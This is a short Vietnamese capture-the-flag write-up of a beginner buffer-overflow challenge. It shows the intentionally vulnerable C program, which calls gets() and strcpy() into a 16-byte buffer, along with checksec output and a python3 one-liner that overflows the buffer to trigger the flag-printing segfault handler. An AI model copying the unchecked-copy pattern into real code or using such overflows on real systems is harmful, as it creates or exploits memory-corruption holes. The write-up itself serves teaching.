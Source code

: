 # Buffer Overflow 0

## Description

> Let's start off simple, can you overflow the correct buffer?

## Solution

Hãy nhìn qua binary xem nó có gì:

```bash
➜  BOF_0 file vuln
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b53f59f147e1b0b087a736016a44d1db6dee530c, for GNU/Linux 3.2.0, not stripped
➜  BOF_0 checksec --file=vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   84 Symbols        No    0               4               vuln
```

Một file ELF 32-bit và không có Stack Canary

Hãy xem qua source code có gì:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

```

&#x20;Ở function **sigsegv\_handler()**

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

Ta thấy  “SIGSEGV” là viết tắt cho **segmentation fault,** là một lỗi được tạo ra bởi phần cứng bảo vệ bộ nhớ mỗi khi nó cố gắng truy cập một địa chỉ bộ nhớ mà bị hạn chế hoặc không tồn tại. Nếu cờ **printf()** nằm trong **sigsegv\_handler()**, thì chúng ta có thể an tâm rằng chúng ta phải tìm ra cách kích hoạt một lỗi phân đoạn.

Tiếp tục với **main()** thì function này dùng **gets()** function, một function khá nguy hiểm vì nó cho phép chúng ta nhập input mà không kiểm tra độ dài của nó. Chính vì thế mà chúng ta có thể nhập vượt quá 100 bytes và chuyển 100 bytes input nào vào function **vuln().** Input của chúng ta có thể ghi đè 16 bytes **buf2** trong vuln() và có thể dẫn đến **segmentation fault**

Vì vậy ta có thể thử cho input với độ dài là 16 bytes trước sau đó tăng lên mỗi lần 4 bytes một cho đến khi nó gây lỗi

```bash
➜  BOF_0 python3 -c "print('A'*(16+3))" | ./vuln
Input: The program will exit now
➜  BOF_0 python3 -c "print('A'*(16+4))" | ./vuln
Input: FLAG{helloiloveyou}
```
